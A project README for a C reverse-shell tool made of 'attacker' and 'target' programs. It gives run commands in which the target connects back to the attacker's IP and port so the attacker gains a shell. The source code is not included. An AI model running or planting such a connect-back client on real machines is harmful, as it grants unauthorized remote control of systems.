 # reverseShell
👨‍💻 Script in C which after compiling can be used by an 
**Attacker** 
to gain a shell of
**Target** 
machine.

## Usage
Firstly, you should compile the above C programs. In my case I used `g++` compiler and gave the output files name as `attacker` and `target` respectively.
### 1. Setup a server and listen for incoming connections.
On your machine setup a server and start listening on a port.

``` 
./attacker 1234
```

### 2. Execute client script on target and setup a connection to the server
You can do this by simply executing the target compiled file

```
./target 192.168.0.2 1234
```

Now you should have gained a shell on the server machine.

## Demo
![Alt Text](https://github.com/Yashvendra/reverseShell/blob/master/Demo/video-gif.gif)

## License
MIT © y_k_007

## Author
If you liked the project then kindly support it by giving it a star ⭐!

